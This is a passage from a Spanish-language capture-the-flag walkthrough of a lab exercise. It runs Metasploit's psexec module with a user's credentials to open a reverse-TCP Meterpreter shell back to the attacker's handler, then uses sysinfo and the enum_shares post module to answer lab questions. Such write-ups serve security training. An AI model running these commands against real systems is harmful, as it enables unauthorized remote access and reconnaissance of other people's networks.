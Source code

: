 Y ejecutamos el exploit obteniendo una shell de meterpreter.
```sh imp=11
msf6 exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 10.10.135.18:4444 
[*] 10.10.15.123:445 - Connecting to the server...
[*] 10.10.15.123:445 - Authenticating to 10.10.15.123:445 as user 'ballen'...
[*] 10.10.15.123:445 - Selecting PowerShell target
[*] 10.10.15.123:445 - Executing the payload...
[+] 10.10.15.123:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 10.10.15.123
[*] Meterpreter session 1 opened (10.10.135.18:4444 -> 10.10.15.123:64207) at 2025-06-08 14:00:00 +0100

meterpreter >
```

Ahora que ya estamos dentro del sistema vamos a recolectar más información del sistema, la primera pregunta que se nos hace es:
## ¿Cual es el nombre de la computadora?  + ¿Cuál es el dominio objetivo?
Esto lo vamos a averiguar con el comando `sysinfo`:
```sh imp=2,6
meterpreter > sysinfo
Computer        : ACME-TEST
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 8
Meterpreter     : x86/windows
```
## ¿Cuál es el nombre del recurso compartido probablemente creado por el usuario?  
Ahora para ver que recurso compartido esta por el usuario, vamos a poner en background nuestra shell, y vamos a iniciar el modulo `post/windows/gather/enum_shares` y le vamos a indicar que la session es la 1.
```sh imp=3,33-35 mar=2,19
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > use post/windows/gather/enum_shares 
msf6 post(windows/gather/enum_shares) > show options

Module options (post/windows/gather/enum_shares):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CURRENT  true             yes       Enumerate currently configured shares
   ENTERED  true             yes       Enumerate recently entered UNC Paths in the Run Dialog
   RECENT   true             yes       Enumerate recently mapped shares
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(windows/gather/enum_shares) > set session 1
session => 1
msf6 post(windows/gather/enum_shares) > run
[*] Running module against ACME-TEST (10.10.15.123)
[*] The following shares were found:
[*] 	Name: SYSVOL
[*] 	Path: C:\Windows\SYSVOL\sysvol
[*] 	Remark: Logon server share 
```